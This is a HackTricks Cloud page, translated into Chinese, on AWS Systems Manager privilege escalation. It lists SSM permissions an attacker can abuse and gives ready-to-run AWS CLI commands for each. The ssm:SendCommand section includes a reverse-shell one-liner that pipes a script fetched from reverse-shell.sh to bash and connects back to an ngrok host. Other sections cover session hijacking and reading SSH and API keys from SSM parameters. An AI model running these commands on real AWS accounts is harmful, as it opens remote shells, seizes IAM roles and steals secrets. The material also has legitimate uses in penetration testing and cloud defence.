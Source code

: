 # AWS - SSM权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## SSM

有关SSM的更多信息，请查看：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

拥有**`ssm:SendCommand`**权限的攻击者可以在运行Amazon SSM代理的实例中**执行命令**，并**威胁到其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在影响:** 直接提升权限至运行具有运行SSM代理的EC2 IAM角色。

### `ssm:StartSession`

拥有**`ssm:StartSession`**权限的攻击者可以在运行Amazon SSM代理的实例中**启动类似SSH的会话**，并**危害其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
要开始会话，您需要安装**SessionManagerPlugin**：[https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在影响：** 直接提升权限以访问运行中带有运行SSM代理的EC2 IAM角色。

#### 提升权限至ECS

当**ECS任务**以**启用`ExecuteCommand`**的方式运行时，具有足够权限的用户可以使用`ecs execute-command`在容器内部**执行命令**。\
根据[**文档**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)，这是通过在发起“_exec_”命令的设备和带有SSM会话管理器的目标容器之间创建安全通道来完成的。\
因此，具有`ssm:StartSession`权限的用户将能够通过运行以下命令**在启用该选项的ECS任务内获取shell**：
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
**潜在影响:** 直接提升至运行具有启用`ExecuteCommand`的`ECS` IAM 角色的任务。

### `ssm:ResumeSession`

拥有权限 **`ssm:ResumeSession`** 的攻击者可以在运行Amazon SSM Agent的实例中重新启动类似SSH的会话，当SSM会话状态处于**断开**状态时，可以**危及其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在影响:** 直接提升权限至运行实例附加的 EC2 IAM 角色，同时 SSM 代理正在运行和会话已断开。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

具有上述权限的攻击者将能够列出 **SSM 参数** 并以明文形式读取它们。在这些参数中，您经常可以找到诸如 SSH 密钥或 API 密钥之类的 **敏感信息**。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在影响:** 查找参数中的敏感信息。

### `ssm:ListCommands`

拥有此权限的攻击者可以列出所有发送的**命令**，并希望在其中找到**敏感信息**。
```
aws ssm list-commands
```
**潜在影响:** 在命令行中查找敏感信息。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

拥有这些权限的攻击者可以列出所有发送的**命令**并**读取生成的输出**，希望能在其中找到**敏感信息**。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在影响:** 在命令行输出中查找敏感信息。

### Codebuild

您还可以使用SSM进入正在构建的codebuild项目：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
